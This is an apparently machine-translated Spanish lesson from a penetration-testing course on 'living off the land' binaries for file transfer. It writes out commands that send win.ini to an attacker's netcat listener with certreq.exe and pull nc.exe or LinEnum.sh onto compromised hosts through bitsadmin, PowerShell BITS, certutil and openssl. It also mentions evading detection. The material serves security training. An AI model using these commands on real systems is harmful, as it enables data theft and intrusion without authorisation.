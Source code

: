 # Viviendo fuera de la tierra

La frase "Vivir fuera de la tierra" fue acuñada por Christopher Campbell[@obscuresec](https://twitter.com/obscuresec)& Matt Graeber[@mattifestation](https://twitter.com/mattifestation)en[Derbycon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

El término Lolbins (que vive fuera de los binarios de la tierra) provino de una discusión de Twitter sobre cómo llamar binarios que un atacante puede usar para realizar acciones más allá de su propósito original. Actualmente hay dos sitios web que agregan información sobre la vida fuera de los binarios de la tierra:

- [Proyecto Lolbas para binarios de Windows](https://lolbas-project.github.io/)
- [Gtfobins para binarios de Linux](https://gtfobins.github.io/)

Vivir fuera de los binarios terrestres se puede utilizar para realizar funciones como:

- Descargar
- Subir
- Ejecución de comando
- Archivo Leer
- Archivo Escribir
- Derivaciones

Esta sección se centrará en usar proyectos LOLBAS y GTFOBINS y proporcionará ejemplos para las funciones de descarga y carga en los sistemas Windows y Linux.

---

# **Usando el proyecto lolbas y gtfobins**

[Lolbas para ventanas](https://lolbas-project.github.io/#)y[Gtfobins para Linux](https://gtfobins.github.io/)son sitios web donde podemos buscar binarios que podamos usar para diferentes funciones.

### **Lolbas**

Para buscar funciones de descarga y carga en[Lolbas](https://lolbas-project.github.io/)Podemos usar`/download`o`/upload`.

![](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Usemos[Certreq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/)Como ejemplo.

Necesitamos escuchar en un puerto en nuestro host de ataque para el tráfico entrante usando NetCat y luego ejecutar CERTREQ.EXE para cargar un archivo.

### **Sube Win.ini a nuestro Pwnbox**

Viviendo fuera de la tierra

```
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)

```

Esto enviará el archivo a nuestra sesión de NetCat, y podemos copiar su contenido.

### **Archivo recibido en nuestra sesión de NetCat**

Viviendo fuera de la tierra

```
xnoxos@htb[/htb]$ sudo nc -lvnp 8000listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

```

Si recibe un error al ejecutar`certreq.exe`, la versión que está utilizando puede no contener el`-Post`parámetro. Puede descargar una versión actualizada[aquí](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe)e inténtalo de nuevo.

### **Gtfobinas**

Para buscar la función de descarga y carga en[Gtfobins para binarios de Linux](https://gtfobins.github.io/), podemos usar`+file download`o`+file upload`.

![](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Usemos[Openssl](https://www.openssl.org/). Con frecuencia se instala y a menudo se incluye en otras distribuciones de software, con sysadmins utilizándolo para generar certificados de seguridad, entre otras tareas. OpenSSL se puede usar para enviar archivos "estilo NC".

Necesitamos crear un certificado e iniciar un servidor en nuestro Pwnbox.

### **Crear certificado en nuestro Pwnbox**

Viviendo fuera de la tierra

```
xnoxos@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pemGenerating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

```

### **Poner el servidor en nuestro Pwnbox**

Viviendo fuera de la tierra

```
xnoxos@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

```

A continuación, con el servidor en ejecución, necesitamos descargar el archivo de la máquina comprometida.

### **Descargar archivo de la máquina comprometida**

Viviendo fuera de la tierra

```
xnoxos@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

# **Otros vivos comunes de las herramientas de tierras**

### **Función de descarga de bitsadmin**

El[Servicio de transferencia inteligente de antecedentes (bits)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)se puede usar para descargar archivos de sitios HTTP y acciones de SMB. "Inteligentemente" verifica la utilización del host y la red en cuenta para minimizar el impacto en el trabajo de primer plano de un usuario.

### **Descargar archivos con bitsadmin**

Viviendo fuera de la tierra

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe

```

PowerShell también habilita la interacción con BIT, habilita las descargas y cargas de archivos, admite credenciales y puede usar servidores proxy especificados.

### **Descargar**

Viviendo fuera de la tierra

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"

```

---

### **Certutil**

Casey Smith ([@Subtee](https://twitter.com/subtee?lang=en)) encontraron que CertUtil se puede usar para descargar archivos arbitrarios. Está disponible en todas las versiones de Windows y ha sido una técnica popular de transferencia de archivos, que sirve como defactor`wget`para ventanas. Sin embargo, la interfaz antimalware de escaneo (AMSI) actualmente lo detecta como un uso de certutil malicioso.

### **Descargue un archivo con certutil**

Viviendo fuera de la tierra

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe

```

---

# **Práctica adicional**

Vale la pena leer los sitios web de Lolbas y Gtfobins y experimentar con tantos métodos de transferencia de archivos como sea posible. Cuanto más oscuro, mejor. Nunca se sabe cuándo necesitará uno de estos binarios durante una evaluación, y ahorrará tiempo si ya tiene notas detalladas sobre múltiples opciones. Algunos de los binarios que se pueden aprovechar para las transferencias de archivos pueden sorprenderlo.

En las dos secciones finales, tocemos las consideraciones de detección con respecto a las transferencias de archivos y algunos pasos podemos pasar para evadir la detección si el alcance de nuestra evaluación requiere pruebas evasivas.